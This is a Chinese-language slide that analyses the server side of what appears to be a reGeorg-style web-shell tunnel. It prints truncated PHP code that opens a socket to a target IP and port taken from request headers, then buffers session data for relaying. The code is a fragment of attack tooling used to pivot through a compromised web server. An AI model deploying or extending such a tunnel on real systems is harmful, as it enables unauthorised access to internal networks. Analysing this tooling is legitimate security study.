

功能分析——服务端
3. 根据CONNECT请求中的targetIP和port参数与其建立socket连接。
switch($cmd){
    case "CONNECT":
        {
            $target = $headers["X-TARGET"]; $port = (int)$headers["X-PORT"];
            $sock = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
            if ($sock === false) {
                header('X-STATUS: FAIL');
                header('X-ERROR: Failed creating socket');
                return;
            }
            $res = @socket_connect($sock, $target, $port);
            if ($res === false) {
                header('X-STATUS: FAIL');
                header('X-ERROR: Failed connecting to target');
                return;
            }
            socket_set_nonblock($sock); @session_start();
            $_SESSION["run"] = true;
            $_SESSION["writebuf"] = ""; $_SESSION["readbuf"] = "";
            ···